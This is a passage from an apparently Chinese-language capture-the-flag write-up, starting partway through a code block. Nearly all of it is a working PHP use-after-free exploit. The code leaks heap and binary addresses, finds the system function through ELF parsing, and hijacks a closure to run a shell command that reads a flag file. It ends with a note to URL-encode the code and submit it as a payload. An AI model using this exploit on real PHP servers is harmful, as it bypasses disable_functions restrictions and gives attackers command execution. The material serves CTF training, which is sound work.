 ```PHP
    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
 
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
 
    $helper = new Helper;
    $helper->b = function ($x) { };
 
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
 
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
 
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
 
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
 
    $closure_obj = str2ptr($abc, 0x20);
 
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
 
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
 
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
 
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
 
 
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
 
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 
 
    ($helper->b)($cmd);
    exit();
}
 
ctfshow("cat /flag0.txt");ob_end_flush();
?>
```
删掉第一行的`<?php`, 在使用URL 编码后，传入payload：